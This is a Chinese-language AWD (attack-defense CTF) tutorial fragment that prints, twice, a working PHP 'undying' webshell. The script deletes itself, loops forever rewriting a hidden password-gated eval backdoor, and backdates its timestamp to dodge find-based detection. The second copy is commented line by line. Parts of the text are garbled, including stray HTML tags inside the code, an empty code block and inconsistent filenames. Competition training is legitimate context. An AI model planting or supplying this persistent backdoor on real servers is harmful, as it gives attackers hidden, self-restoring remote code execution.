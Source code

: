 ```

```

脚本执行成功后会在当前目录下生成一个flag.txt存储flag

<br/> 或者使用bash

<br/> 命令行单独查看

### 信息收集

nmap探测目标网段存活主机<br/> 使用”-r”选项表示不会随机的选择端口扫描

### AWD不死马与克制方法

##### 一个简单的不死马

```
&lt;?php
    ignore_user_abort(true);
    set_time_limit(0);
    unlink(__FILE__);
    $file = '.config.php';
    $code = '&lt;?php if(md5($_GET["pass"])=="1a1dc91c907325c69271ddf0c944bc72"){&lt;span class="label label-primary"&gt;@eval($_POST[a]);}&lt;/span&gt; ?&gt;';
    //pass=pass
    while (1){
        file_put_contents($file,$code);
        system('touch -m -d "2018-12-01 09:10:12" .config.php');
        usleep(5000);
    }
?&amp;gt;

```

在AWD比赛中，不死马对于维持权限十分有效。将该php文件上传到服务器，然后进行访问，会在该路径下循环生成名字为.config.php的不死马隐藏文件<br/> 蚁剑连接

##### 简单介绍一下PHP不死马代码

```
&lt;?php
    ignore_user_abort(true); //设置与客户机断开是否会终止脚本的执行，这里设置为true则忽略与用户的断开，即使与客户机断开脚本仍会执行
    set_time_limit(0); //设置脚本最大执行时间，这里设置为0，即没有时间方面的限制
    unlink(__FILE__); //删除文件本身，以起到隐蔽自身的作用
    $file = '.config.php';
    $code = '&lt;?php if(md5($_GET["pass"])=="1a1dc91c907325c69271ddf0c944bc72"){&lt;span class="label label-primary"&gt;@eval($_POST[a]);}&lt;/span&gt; ?&gt;'; //进行校验是为了防止自家木马被其他人利用
    //pass=pass
    while (1){
        file_put_contents($file,$code);
        system('touch -m -d "2018-12-01 09:10:12" .3.php');
        usleep(5000); //while循环中每隔usleep(5000)即写新的后门文件，system命令用于修改文件的创建时间或修改时间，因为在AWD比赛中会有队伍使用find命令查看文件的修改时间
    }
?&amp;gt;

```
